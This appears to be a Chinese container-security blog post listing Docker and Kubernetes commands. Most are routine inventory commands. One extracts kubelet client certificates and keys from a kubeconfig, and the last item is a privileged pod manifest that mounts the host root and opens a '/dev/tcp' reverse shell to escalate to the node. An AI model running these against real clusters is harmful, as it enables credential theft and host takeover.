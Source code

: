 ```yaml
---
title: docker and k8s常用命令备忘
authors: Enokiy
date: 2024-06-30
categories: [容器安全]
tags: [k8s]
---
```


## docker常用命令备忘

1. docker快手命令：查找并进入容器：

```bash
#!/bin/bash
cid=docker ps -a |grep $1|grep -v Exit|awk '{print $1}'|sed -n 1p
echo "$cid"
if test -n "$cid"
then
    docker exec -ti -u root $cid bash
else
    echo "$1 not found!!!!"
fi
```

2. 宿主机上查找特权容器：

```bash
docker ps --quiet -a|xargs docker inspect --format="\{\{.Id}}\{\{.Name}}\{\{.HostConfig.Privileged}}"|grep true
```

## k8s 常用命令备忘

1. 查看k8s所有资源，包括自定义资源：

```shell
kubectl api-resources
```
2. 只获取EXTERNAL_IP包含100.的pod结果

```bash
kubectl get pods -A -o custom-columns=NAME:.metadata.name,NAMESPACE:.metadata.namespace,NODENAME:.spec.nodeName,HOSTIP:.status.hostIP
kubectl get svc -A -o wide|awk '{if (index($5,"100.")) print $0}' 
```
3. 不配kubeconfig文件，通过证书认证

```bash
kubectl --client-certificate=/var/cert/server.cer --client-key=/var/cert/server_key.pem --certificate-authority=/var/cert/ca.cer -s https://192.168.16.4:4443
```

4. 获取所有pod的name，namespace，nodeName，Host IP命令

```bash
kubectl get pods --all-namespaces -o custom-columns=NAME:.metadata.name,NAMESPACE:.metadata.namespace,NODENAME:.spec.nodeName,HOSTIP:.status.hostIP
```

5. 遍历获取所有namespace下面的pods

```bash
for ns in `kubectl get ns -o custom-columns=NAME:.metadata.name --no-headers` ; do kubectl get  pods -n "$ns" -o custom-columns=NAME:.metadata.name,NAMESPACE:.metadata.namespace,NODENAME:.spec.nodeName,HOSTIP:.status.hostIP;done >all_pods.txt

kubectl get pods -A -o custom-columns=NAME:.metadata.name,NAMESPACE:.metadata.namespace,NODENAME:.spec.nodeName,HOSTIP:.status.hostIP;done >all_pods.txt
```

5. 遍历获取所有namespace下面的svc

```bash
for ns in `kubectl get ns -o custom-columns=NAME:.metadata.name|grep -v NAME` ; do kubectl get  svc -n "$ns" -o custom-columns=NAMESPACE:.metadata.namespace,NAME:.metadata.name,TYPE:.spec.type,CLUSTER-IP:.spec.clusterIP,PORTS:.spec.ports;done >all_svc.txt

kubectl get svc -A -o custom-columns=NAMESPACE:.metadata.namespace,NAME:.metadata.name,TYPE:.spec.type,CLUSTER-IP:.spec.clusterIP,PORTS:.spec.ports >all_svc.txt

kubectl get svc -A -o jsonpath='{range .items[*]}{.metadata.namespace}{"\t"}{.metadata.name}{"\t"}{.spec.type}{"\t"}{.spec.clusterIP}{"\t"}{range .spec.ports[*]}{.protocol}{"/"}{.port}{","}{end}{"\n"}{end}'>all_svc.txt
```

6. 从kubeconfig文件提取crt和key

```bash
cat /opt/kube-agent/kubernetes/kubelet/kubeconfig| grep client-certificate-data | cut -f2 -d : | tr -d ' ' | base64 -d >kubelet.crt
cat /opt/kube-agent/kubernetes/kubelet/kubeconfig| grep client-key-data| cut -f2 -d : | tr -d ' ' | base64 -d >kubelet.key
```

7. 查看所有clusterrole以及其权限

```bash
for cr in `kubectl get clusterrole -o custom-columns=NAME:.metadata.name|grep -v NAME`;do echo "kubectl describe clusterrole $cr";kubectl describe clusterrole $cr;done
```
8. 通过创建pod 反弹shell并提权到node节点上

```yaml
apiVersion: v1
kind: Pod
metadata:
    name: pod1
spec:
    containers:
    - image: nginx
    name: pod1
    command: ['/bin/bash','-c','bash -i >&/dev/tcp/ip/port 0>&1'] 
    securityContext:
        privileged: true
        runAsUser: 0
        runAsgroup: 0
    volumeMounts:
    - name: hostfs
        mountPath: /hostfs
    volumes:
    - name: hostfs
    hostPath:
        path: "/"
```